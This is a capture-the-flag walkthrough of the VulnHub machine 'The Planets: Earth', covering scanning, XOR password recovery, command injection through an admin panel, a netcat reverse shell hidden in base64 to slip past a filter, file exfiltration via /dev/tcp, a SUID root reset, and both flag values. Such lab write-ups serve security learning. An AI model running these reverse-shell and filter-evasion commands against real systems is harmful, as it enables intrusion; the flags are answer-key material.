

# The Planets: Earth
<p align="left">
  
</p>

## Table of Contents
- [Url](#url)
- [Description](#description)
- [Walkthrough](#walkthrough)
  - [Network scan](#network-scan)
  - [Webpage access](#webpage-access)
  - [Gobuster](#gobuster)
  - [Cyberchef](#cyberchef)
  - [Admin Command Tool](#admin-command-tool)
    - [User flag](#user-flag)
  - [Connect into server](#connect-into-server)
  - [Analyze `reset_root` file](#analyze-reset_root-file)
  - [Get root password](#get-root-password)
    - [Root flag](#root-flag)
- [Flags](#flags)

## Url
https://www.vulnhub.com/entry/the-planets-earth,755/

## Description
Earth is an easy box though you will likely find it more challenging than "Mercury" in this series and on the harder side of easy, depending on your experience. There are two flags on the box: a user and root flag which include an md5 hash. This has been tested on VirtualBox so may not work correctly on VMware. Any questions/issues or feedback please email me at: SirFlash at protonmail.com, though it may take a while for me to get back to you.

## Walkthrough
### Network scan

First, I decided to scan the local LAN using the command ```sudo arp-scan -l```
```
┌─[parrot@parrot]─[~]
└──╼ $sudo arp-scan -l
Interface: enp0s3, type: EN10MB, MAC: 08:00:27:06:6d:ce, IPv4: 192.168.100.136
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)

(...)
192.168.100.141	08:00:27:a3:25:98	PCS Systemtechnik GmbH
(...)
```

After finding the IP address I was interested in, i.e. ```192.168.100.141```, I decided to use the nmap tool to see if any ports were open and what services were running (along with their version). So I ran ```nmap -sV -sC 192.168.100.141```
```
┌─[✗]─[parrot@parrot]─[~]
└──╼ $nmap -sV -sC 192.168.100.141
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-27 20:38 CEST
Nmap scan report for 192.168.100.141
Host is up (0.0024s latency).
Not shown: 986 filtered tcp ports (no-response), 11 filtered tcp ports (host-unreach)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 5b:2c:3f:dc:8b:76:e9:21:7b:d0:56:24:df:be:e9:a8 (ECDSA)
|_  256 b0:3c:72:3b:72:21:26:ce:3a:84:e8:41:ec:c8:f8:41 (ED25519)
80/tcp  open  http     Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-title: Bad Request (400)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Not valid before: 2021-10-12T23:26:31
|_Not valid after:  2031-10-10T23:26:31
|_http-title: Bad Request (400)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.92 seconds
```

In the result I got, I found some interesting information. The first is that ports 80, 442 and 22 are open. In addition to this, the result also showed information on Subject Alternative Name. They are ```earth.local``` and ```terratest.earth.local```

### Webpage access

After adding these names to ```/etc/hosts```, I was able to successfully open pages in the browser:
* ```http://earth.local```
<p align="center">
  
</p>

* ```https://terratest.earth.local```
<p align="center">
  
</p>

### Gobuster

The next step was to scan the sites to find if there were any files or directories available from the browser. To do this, I used the ````gobuster``` tool:
```
┌─[✗]─[parrot@parrot]─[~]
└──╼ $gobuster dir -u http://earth.local/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://earth.local/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> /admin/]
/cgi-bin/             (Status: 403) [Size: 199]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

In the first case, the admin directory leading to the login page was found.

<p align="center">
  
</p>

<p align="center">
  
</p>


The other site was also scanned for files and directories. In this case, however, I had to add the `-k` flag to the gobuster command due to the use of https:
```
┌─[✗]─[parrot@parrot]─[~]
└──╼ $gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://terratest.earth.local/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 199]
/.htaccess            (Status: 403) [Size: 199]
/.htpasswd            (Status: 403) [Size: 199]
/cgi-bin/             (Status: 403) [Size: 199]
/index.html           (Status: 200) [Size: 26]
/robots.txt           (Status: 200) [Size: 521]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

A scan showed that `index.html` and `robots.txt` files were available. So I decided to check the contents of the `robots.txt` file in hopes of finding helpful information.

<p align="center">
  
</p>


The next step was to review the `testingnotes.*` file, which, as it turned out, contained a lot of helpful information:

<p align="center">
  
</p>

By accessing the file, it turned out that:
1. XOR is used for encryption,
2. `testdata.txt` file was used for data encryption
3. the username to the administrative portal is `terra`

Following this lead, I checked if I had access to the file `testdata.txt`. After successfully opening it, I learned its contents thus obtaining the necessary key.

<p align="center">
  
</p>

### Cyberchef
Once I had the key, I decided to try to discover the password to the administration panel. To do this, I used the Cyberchef tool, the key I found and the three messages available on the main site `http://eatrh.local`. While working with Cyberchef, I decided to first decrypt the text from the hexadecimal form, and then perform an `XOR` on it with the found key. Performing these steps, I managed to find a string in which the aged fragment is the password.

<p align="center">
  
</p>

### Admin Command Tool
I went to the admin panel and entered username `terra` and password `earthclimatechangebad4humans`. With that, the admin panel is mine!

<p align="center">
  
</p>

#### User flag
As a test, I decided to call the `ls /var` command to see if the commands executed. By doing so, I was able to find the `earth_web/` directory.

<p align="center">
  
</p>

It turned out that in the mentioned directory there is a file `user_flag.txt`. So I checked its contents thereby getting the first flag: `Command output: [user_flag_3353b67d6437f07ba7d34afd7d2fc27d]`

To get root flag required root access to the machine. For this purpose, in the terminal I executed the command `nc -lvnp 4444` to listen on port 4444. In addition, in the CLI command execution field I entered the command `nc -e /bin/bash 192.168.100.136 4444`. It turned out that it is impossible to execute this move.

<p align="center">
  
</p>


### Connect into server

In this situation, I decided to cheat the mechanism. I first encoded the above command using `base64`. The resulting string was `bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTAwLjEzNiA0NDQ0Cg==`. In the second step, I constructed a command that decodes the string and executes it. This command is `echo “bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTAwLjEzNiA0NDQ0Cg==” | base64 -d | bash`.

After executing this command, the connection on port 4444 was successfully intercepted:

<p align="center">
  
</p>


I decided to look around the system I had access to and look for a clue that would help me find the password. In addition to manually checking directories, I also used the `find / -perm -4000 -type f 2>/dev/null` command. It searches for all files on the system that have the SUID bit set, and ignores error messages. With that, I came across the `/usr/bin/reset_root` file.

<p align="center">
  
</p>

### Analyze `reset_root` file
I encountered the following error when trying to execute this file:

<p align="center">
  
</p>

So I decided to take a better look at the file, so I copied it to my device. To do this in one terminal I called `nc -nlvp 9111 > reset_root`, while on the acquired system I called `cat /usr/bin/reset_root > /dev/tcp/192.168.100.136/9111`.

I added the right to run for the owner of the `reset_root` file before proceeding with the test.

After checking the contents of the file, it turned out that it is not human-readable format.  For this reason, I used the `ltrace` tool, which made my job much easier and showed the content I could read.

It contains the following important elements:
- `access(path, mode)` - a system function that checks whether a file can be accessed.
- `0` - mode `F_OK`, meaning: does the file exist.
- `= -1` - means that the file does not exist (error, typically `ENOENT` - No such file or directory).

```
┌─[✗]─[parrot@parrot]─[~]
└──╼ $ltrace ./reset_root 
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
) = 38
access("/dev/shm/kHgTFI5G", 0) = -1
access("/dev/shm/Zw7bV9U5", 0) = -1
access("/tmp/kcM0Wewe", 0)   = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
) = 44
+++ exited (status 0) +++
```

The easiest way to solve this problem was to manually create the required pistachio files in the appropriate locations. The easiest way to solve this problem was to manually create the required pistachio files in the appropriate locations. With this method it was possible to run the `reset_root` file and execute it successfully. The password was reset to the default value, which is `Earth`.

### Get root password
<p align="center">
  
</p>

An attempt to log in to the root account using this password was also successful:

<p align="center">
  
</p>

#### Root flag
In the `/root` directory there was a `root_flag` file whose contents were as follows:

<p align="center">
  
</p>


# Flags
- user_flag: `user_flag_3353b67d6437f07ba7d34afd7d2fc27d`
- root_flag: `root_flag_b0da9554d29db2117b02aa8b66ec492e`